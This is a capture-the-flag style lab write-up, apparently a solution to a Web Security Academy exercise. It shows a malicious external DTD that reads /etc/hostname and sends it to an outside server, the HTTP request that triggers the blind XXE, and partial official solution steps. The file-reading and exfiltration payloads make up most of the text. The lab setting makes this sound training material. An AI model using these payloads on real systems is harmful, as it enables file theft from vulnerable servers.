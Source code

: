 


#### Exploiting blind XXE to exfiltrate data using a malicious external DTD

> This lab has a "Check stock" feature that parses XML input but does not display the result.
>
> To solve the lab, exfiltrate the contents of the /etc/hostname file. 

evil.dtd

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'https://exploit-0a7600c903ef48eac0030d8701f1007e.web-security-academy.net/?x=%file;'>">
%eval;
%exfiltrate;
```

request

```http
POST /product/stock HTTP/1.1
Host: 0afb009503304883c0cd0dc400d800f8.web-security-academy.net
Content-Type: application/xml

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a7600c903ef48eac0030d8701f1007e.web-security-academy.net/evil.dtd">  %xxe;]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        Using Burp Suite Professional, go to the Burp menu, and launch the Burp Collaborator client.
                    </li>
                    <li>
                        Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
                    </li>
                    <li>
                       <p>
                           Place the Burp Collaborator payload into a malicious DTD file:
                       </p>
                       <code class="code-scrollable">&lt;!ENTITY % file SYSTEM "file:///etc/hostname"&gt;
&lt;!ENTITY % eval "&lt;!ENTITY &amp;#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'&gt;"&gt;
%eval;
%exfil;</code>
                    </li>
                    <li>
                        Click "Go to exploit server" and save the malicious DTD file on your server. Click "View exploit" and take a note of the URL.
                    </li>
                    <li>
                        You need to exploit the stock checker feature by adding a parameter entity referring to the malicious DTD. First, visit a product page, click "Check stock", and intercept the resulting POST request in Burp Suite.
                    </li>
                    <li>
                        <p>
                            Insert the following external entity definition in between the XML declaration and the <code>stockCheck</code> element:
                        </p>
